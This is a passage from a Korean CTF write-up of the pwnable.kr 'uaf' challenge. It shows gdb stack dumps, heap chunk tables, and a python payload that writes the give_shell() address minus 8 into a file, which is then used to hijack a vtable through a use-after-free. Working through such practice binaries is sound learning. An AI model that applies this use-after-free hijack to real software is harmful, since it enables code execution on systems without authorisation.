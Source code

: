 `0x1c25c90`에 위치한 size `0x20`짜리 청크 하나가 할당되었다.

```bash
[------------------------------------stack-------------------------------------]
0000| 0x7ffff07af660 --> 0x7ffff07af7a8 --> 0x7ffff07b025c ("/home/chykor12/pwnable.kr/uaf")
0008| 0x7ffff07af668 --> 0x30000ffff 
0016| 0x7ffff07af670 --> 0x1c25c38 --> 0x6b63614a ('Jack')
0024| 0x7ffff07af678 --> 0x401177 (<_GLOBAL__sub_I_main+19>:	pop    rbp)
0032| 0x7ffff07af680 --> 0x1c25c88 --> 0x6c6c694a ('Jill')
0040| 0x7ffff07af688 --> 0x1c25c50 --> 0x0 
0048| 0x7ffff07af690 --> 0x1c25ca0 --> 0x1c25c40 --> 0x0 
0056| 0x7ffff07af698 --> 0x14
...
gdb-peda$ p/x $rbp-0x38
$51 = 0x7ffff07af688
```

그런데 스택을 보면, 할당된 청크의 주소는 `rbp-0x38`이 아니라 `rbp-0x30`에 저장되어 있다.(스택에 저장된 것은 청크의 user data 영역의 주소이기 때문에 청크의 시작 주소보다 `0x10`만큼 크다.) 옵션 2를 한 번 더 주면 다음과 같이 바뀐다.

```bash
addr                prev                size                 status              fd                bk                
0x1c14000           0x0                 0x11c10              Used                None              None
0x1c25c10           0x0                 0x30                 Freed                0x0              None
0x1c25c40           0x0                 0x20                 Used                None              None
0x1c25c60           0x1c25c38           0x30                 Freed          0x1c25c10              None
0x1c25c90           0x0                 0x20                 Used                None              None
0x1c25cb0           0x74736574          0x410                Used                None              None
0x1c260c0           0x0                 0x410                Used                None              None
```

size가 `0x20`인 청크가 하나 더 할당되었다. 두 번째로 할당된 청크의 주소는 `rbp-0x38`에 적혀 있다.

여기서 생각해 보면, 원래 `rbp-0x38`에 적혀 있는 주소를 가진 청크에는 `give_shell()`의 주소가 있는 table의 주소가 적혀 있었고, 그 주소에 `0x8`을 더하여 `introduce()`의 주소가 있는 table에 접근했었다. 만약 청크에 `give_shell()`의 주소가 있는 table의 주소보다 `0x8`만큼 작은 값이 들어 있다면, 그 주소에 `0x8`을 더하여 `give_shell()`이 실행될 것으로 예상이 된다.

---

```bash
chykor12@ubuntu:~/pwnable.kr$ python -c 'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > test.txt
chykor12@ubuntu:~/pwnable.kr$ ./uaf 20 test.txt
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
```